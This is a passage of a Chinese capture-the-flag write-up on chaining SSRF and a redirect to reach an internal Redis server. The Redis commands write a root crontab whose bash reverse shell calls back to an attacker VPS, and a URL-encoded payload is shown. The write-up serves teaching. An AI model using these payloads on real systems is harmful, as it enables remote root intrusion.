 通过1.2.2 我们能够绕过过滤，在通过1.2.1我们能够构造payload写入信息redis，再加上提示说有crontab，这样我们就可以通过redis来写crontab文件然后反弹shell。</br></p>
<p>正常我们在bash下反弹shell是这样子的命令</p>
<p><code>/bin/bash -i &gt;&amp; /dev/tcp/ip地址/端口号 0&gt;&amp;1</code> <br>
写成计划任务形式，即crontab文件形式</br></p>
<p><code>*/1 * * * * /bin/bash -i &gt;&amp; /dev/tcp/ip地址/端口号 0&gt;&amp;1</code></p>
<p>代表每分钟执行一次</p>
<h3 id="2利用redis写恶意命令">2.利用redis写恶意命令</h3>
<p>通常来说我们在使用redis写文件方法如下：</p>
<pre class="prettyprint"><code class=" hljs cs"><span class="hljs-keyword">set</span> <span class="hljs-number">11</span> <span class="hljs-string">"*/1 * * * * /bin/bash -i &gt;&amp; /dev/tcp/ip地址/端口号 0&gt;&amp;1"</span>
config <span class="hljs-keyword">set</span> dir /<span class="hljs-keyword">var</span>/spool/cron
config <span class="hljs-keyword">set</span> dbfilename root
save
</code></pre>
<p>但本题采取了另一个方式 因为redis不会识别空格</p>
<pre class="prettyprint"><code class=" hljs livecodeserver">（<span class="hljs-number">1</span>） <span class="hljs-built_in">set</span> <span class="hljs-number">11</span> <span class="hljs-string">"\n*/1 * * * * /bin/bash -i &gt;&amp; /dev/tcp/(vps address)/12345 0&gt;&amp;1\n"</span>

*<span class="hljs-number">3</span>     <span class="hljs-comment"> //表示有三个参数</span>
$<span class="hljs-number">3</span>    <span class="hljs-comment"> //下面这个参数长度为3</span>
<span class="hljs-built_in">set</span>
$<span class="hljs-number">1</span>    <span class="hljs-comment"> //下面这个参数长度为1</span>
<span class="hljs-operator">a</span>       
$<span class="hljs-number">64</span>  <span class="hljs-comment"> //下面这个参数长度为64</span>
\n*/<span class="hljs-number">1</span> * * * * /bin/bash -i &gt;&amp; /dev/tcp/(vps address)/<span class="hljs-number">12345</span> <span class="hljs-number">0</span>&gt;&amp;<span class="hljs-number">1</span>\n</code></pre>
<p>这里\n在传输的时候替换成%0a，所以我们要传入的明文子串如下：</p>
<pre class="prettyprint"><code class=" hljs lasso">
<span class="hljs-keyword">link</span><span class="hljs-subst">=</span>http:<span class="hljs-comment">//www.(vps address).xip.io/302.php?url=http://172.17.0.4</span>
<span class="hljs-subst">*</span><span class="hljs-number">3</span>
$<span class="hljs-number">3</span>
<span class="hljs-built_in">set</span>
$<span class="hljs-number">1</span>
a
$<span class="hljs-number">64</span>
<span class="hljs-subst">*</span>/<span class="hljs-number">1</span> <span class="hljs-subst">*</span> <span class="hljs-subst">*</span> <span class="hljs-subst">*</span> <span class="hljs-subst">*</span> /bin/bash <span class="hljs-attribute">-i</span> <span class="hljs-subst">&gt;&amp;</span> /dev/tcp<span class="hljs-subst">/</span>(vps address)/<span class="hljs-number">12345</span> <span class="hljs-number">0</span><span class="hljs-subst">&gt;&amp;</span><span class="hljs-number">1</span>
config <span class="hljs-built_in">set</span> dir /<span class="hljs-built_in">var</span>/spool/cron
config <span class="hljs-built_in">set</span> dbfilename root
save
:<span class="hljs-number">6379</span><span class="hljs-subst">/</span></code></pre>
<p>不能直接发送过去 ，首先进行进行URL编码转换，应该转换几次呢？ <br>
答案是3次 用户web浏览器一次/跳转一次/内网请求一次 <br>
在换行时必须采用%0d%0a 那么最后的形式是将下面的link再转码两次</br></br></p>